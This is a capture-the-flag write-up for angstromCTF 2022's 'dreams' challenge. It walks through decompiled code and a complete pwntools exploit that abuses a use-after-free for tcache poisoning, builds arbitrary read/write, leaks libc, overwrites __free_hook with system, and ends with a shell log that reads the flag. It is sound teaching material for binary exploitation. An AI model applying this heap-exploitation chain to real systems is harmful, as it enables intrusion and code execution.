

## Let's analyze this binary file

Checksec:
```
$ checksec dreams
[*] '/home/tomasgl/ctf/angstorm/dreams/dreams'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Main function:
```c
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  int v3; // [rsp+0h] [rbp-10h] BYREF
  __gid_t rgid; // [rsp+4h] [rbp-Ch]
  unsigned __int64 v5; // [rsp+8h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  setbuf(stdout, 0LL);
  rgid = getegid();
  setresgid(rgid, rgid, rgid);
  dreams = (__int64)malloc(8 * MAX_DREAMS);
  puts("Welcome to the dream tracker.");
  puts("Sleep is where the deepest desires and most pushed-aside feelings of humankind are brought out.");
  puts("Confide a month of your time.");
  v3 = 0;
  while ( 1 )
  {
    while ( 1 )
    {
      menu();
      printf("> ");
      __isoc99_scanf("%d", &v3);
      getchar();
      if ( v3 != 3 )
        break;
      psychiatrist();
    }
    if ( v3 > 3 )
      break;
    if ( v3 == 1 )
    {
      gosleep();
    }
    else
    {
      if ( v3 != 2 )
        break;
      sell();
    }
  }
  puts("Invalid input!");
  exit(1);
}
```
MAX_DREAMS variable:
```
.data:0000000000404010                 public MAX_DREAMS
.data:0000000000404010 MAX_DREAMS      dd 5                    ; DATA XREF: gosleep+6B↑r
.data:0000000000404010                                         ; sell+5F↑r ...
.data:0000000000404010 _data           ends
.data:0000000000404010
```
Let's look at the interesting functions used:
```c
unsigned __int64 gosleep()
{
  size_t v0; // rax
  int v2; // [rsp+Ch] [rbp-14h] BYREF
  void *buf; // [rsp+10h] [rbp-10h]
  unsigned __int64 v4; // [rsp+18h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  puts("3 doses of Ambien finally calms you down enough to sleep.");
  puts("Toss and turn all you want, your unconscious never loses its grip.");
  printf("In which page of your mind do you keep this dream? ");
  v2 = 0;
  __isoc99_scanf("%d", &v2);
  getchar();
  if ( v2 >= MAX_DREAMS || v2 < 0 || *(_QWORD *)(8LL * v2 + dreams) )
  {
    puts("Invalid index!");
    exit(1);
  }
  buf = malloc(0x1CuLL);
  printf("What's the date (mm/dd/yy))? ");
  read(0, buf, 8uLL);
  v0 = strcspn((const char *)buf, "\n");
  *((_BYTE *)buf + v0) = 0;
  printf("On %s, what did you dream about? ", (const char *)buf);
  read(0, (char *)buf + 8, 0x14uLL);
  *(_QWORD *)(dreams + 8LL * v2) = buf;
  return __readfsqword(0x28u) ^ v4;
}
```
```c
unsigned __int64 sell()
{
  int v1; // [rsp+4h] [rbp-Ch] BYREF
  unsigned __int64 v2; // [rsp+8h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  puts("You've come to sell your dreams.");
  printf("Which one are you trading in? ");
  v1 = 0;
  __isoc99_scanf("%d", &v1);
  getchar();
  if ( v1 >= MAX_DREAMS || v1 < 0 )
  {
    puts("Out of bounds!");
    exit(1);
  }
  puts("You let it go. Suddenly you feel less burdened... less restrained... freed. At last.");
  free(*(void **)(8LL * v1 + dreams));
  puts("Your money? Pfft. Get out of here.");
  return __readfsqword(0x28u) ^ v2;
}
```
```c
unsigned __int64 psychiatrist()
{
  int v1; // [rsp+4h] [rbp-Ch] BYREF
  unsigned __int64 v2; // [rsp+8h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  puts("Due to your HMO plan, you can only consult me to decipher your dream.");
  printf("What dream is giving you trouble? ");
  v1 = 0;
  __isoc99_scanf("%d", &v1);
  getchar();
  if ( !*(_QWORD *)(8LL * v1 + dreams) )
  {
    puts("Invalid dream!");
    exit(1);
  }
  printf("Hmm... I see. It looks like your dream is telling you that ");
  puts((const char *)(*(_QWORD *)(8LL * v1 + dreams) + 8LL));
  puts(
    "Due to the elusive nature of dreams, you now must dream it on a different day. Sorry, I don't make the rules. Or do I?");
  printf("New date: ");
  read(0, *(void **)(8LL * v1 + dreams), 8uLL);
  return __readfsqword(0x28u) ^ v2;
}
```
Functions `sleep()`, `sell()` and `psychiatrist()` are equivalent to `malloc()`, `free()` and the function of changing 8 bytes of data in allocated chunks.
Let's write python wrappers for these functions.

## Writing an exploit

### Arbitrary read/write

```python
def malloc(i, data=65, data2=b'A'):
    '''Malloc 28 bytes'''
    if type(data) == int:
        log.info('Malloc [%d] = 0x%X %s', i, data, data2)
        data = p64(data)
    else:
        log.info('Malloc [%d] = %s %s', i, str(data), data2)
    try:
        io.sendline(b'1')
        io.sendlineafter(b'dream? ', str(i).encode())
        io.sendafter(b'))? ', data)
        io.sendlineafter(b'about? ', data2)
        log.debug(io.readuntil(b'> ').decode())
    except:
        log.error(io.read().decode())

def free(i, wait=True):
    '''Free 28 bytes'''
    log.info('Free [%d]', i)
    try:
        io.sendline(b'2')
        io.sendlineafter(b'in? ', str(i).encode())
        if wait:
            log.debug(io.readuntil(b'> ').decode())
    except:
        log.error(io.read().decode())


def edit(i, data):
    '''Edit 8 bytes'''
    if type(data) == int:
        log.info('Edit [%d] = 0x%X', i, data)
        data = p64(data)
    else:
        log.info('Edit [%d] = %s', i, str(data))
    try:
        io.sendline(b'3')
        io.sendlineafter(b'trouble? ', str(i).encode())
        response = io.sendafter(b'date: ', data)
        value = u64(response[59:response.find(b'\nDue')].ljust(8, b'\x00'))
        log.debug(io.readuntil(b'> ').decode())
        return value
    except:
        log.error(io.read().decode())
```

Let's look at the `psychiatrist()` function. She does not check the chunk in any way before editing the contents. So we can change the structure of the freed chunk (use after free). This leads to **tcache-poisoning**. Also, this function helps to leak the address of the heap (by calling it after the chunk is freed).
Let's write a function that will arbitrarily write and read data.

```python
def uaf(address, index):
    malloc(index)
    malloc(index+1)
    free(index)
    free(index+1)
    return edit(index+1, address-8)

def _write(address, data, index):
    value = uaf(address, index)
    malloc(index+2)
    malloc(index+3, b'\n', data)
    return value
```

Having AWR, I immediately overwritten the `MAX_DREAMS` variable, in order to work calmly with the heap. And at the same time I got the address of the heap, which was useful to me further.

```python
value = _write(elf.sym.MAX_DREAMS, b'YYYY', 0)
log.success('MAX_DREAMS overwrited')
heap = value & 0xFFFF000
if not heap:
    log.error('Heap base address leak failed')
log.success('Heap base address leaked: 0x%X', heap)
```

Next, I came up with the idea to make a more convenient and secure AWR, which will not require allocating the chunk in the right place (as in the case of tcache poisoning).
Knowing the address of the heap, we can change the pointers that are stored in the `dreams` variable.

```python
address_of_index = lambda index: heap + 0x2a0 + 8*index

def init_awr():
    address = address_of_index(13)
    _write(address, b'A', 10)
    malloc(14)
    log.success('Arbitrary read write init done')
    return 12, 13

def write(address, data):
    edit(editing_index, address)
    edit(writing_index, data)
    #log.info('0x%X written in 0x%X', data, address)

def read(address):
    edit(editing_index, address-8)
    return edit(writing_index, b'A')

writing_index, editing_index = init_awr()
```
I started working with the 10th index, because after the 5th index, the metadata goes to the chunk `dreams` and the function `gosleep()` will not be able to allocate a chunk in that place (3 condition: `*(_QWORD *)(8LL * B2 + dreams)`).

### Leaking the libc address

Since our read function is accompanied by a write, we cannot read pointers   in the `got` table (I remind you that our binary file has full `RELRO` protection).
Therefore, we need to search for pointers in sections with allowed writing for data.
Let's remember about pointers to `stdout`, `stderr`, `stdin` in libc in the `.bss` section.
```
.bss:0000000000404018                 public stdout@@GLIBC_2_2_5
.bss:0000000000404018 ; FILE *stdout
.bss:0000000000404018 stdout@@GLIBC_2_2_5 dq ?                ; DATA XREF: LOAD:0000000000400548↑o
.bss:0000000000404018                                         ; deregister_tm_clones↑o ...
```
Great, we will use it to leak the libc address:

```python
leak = read(elf.symbols['stdout@@GLIBC_2.2.5'])
if not leak:
    log.error('Libc address leak failed')
libc.address = leak - libc.symbols['_IO_2_1_stdout_']
log.success('Libc base address leakded: 0x%X', libc.address)
```

### Getting the shell
We get the shell by overwriting the pointer `__free_hook` to `system`. When freed a chunk starting with `b'/bin/sh\x00'`, this string will be passed to the `system` function.
```python
write(libc.symbols['__free_hook'], libc.symbols.system)
malloc(15, b'/bin/sh')
free(15, wait=False)

io.interactive()
```

## Running

```
$ ./solve.py             
[*] '/home/tomasgl/ctf/angstorm/dreams/dreams'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/home/tomasgl/ctf/angstorm/dreams/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to challs.actf.co on port 31227: Done
[*] Starting
[*] Malloc [0] = 0x41 b'A'
[*] Malloc [1] = 0x41 b'A'
[*] Free [0]
[*] Free [1]
[*] Edit [1] = 0x404008
[*] Malloc [2] = 0x41 b'A'
[+] MAX_DREAMS overwrited
[+] Heap base address leaked: 0x47B000
[*] Malloc [10] = 0x41 b'A'
[*] Malloc [11] = 0x41 b'A'
[*] Free [10]
[*] Free [11]
[*] Edit [11] = 0x47B300
[*] Malloc [12] = 0x41 b'A'
[*] Malloc [14] = 0x41 b'A'
[+] Arbitrary read write init done
[*] Edit [13] = 0x404010
[*] Edit [12] = b'A'
[+] Libc base address leakded: 0x7FED27F88000
[*] Edit [13] = 0x7FED28176E48
[*] Edit [12] = 0x7FED27FDA2C0
[*] Free [15]
[*] Switching to interactive mode
You let it go. Suddenly you feel less burdened... less restrained... freed. At last.
$ id
uid=1000 gid=1000 groups=1000
$ ls
flag.txt
run
$ cat flag.txt
actf{hav3_you_4ny_dreams_y0u'd_like_to_s3ll?_cb72f5211336}
$
```

Thank you for your attention, and sorry for my English.

[Exploit source code](https://github.com/TomasGlgg/CTF-Writeups/blob/master/angstromCTF%202022/dreams/exploit.py)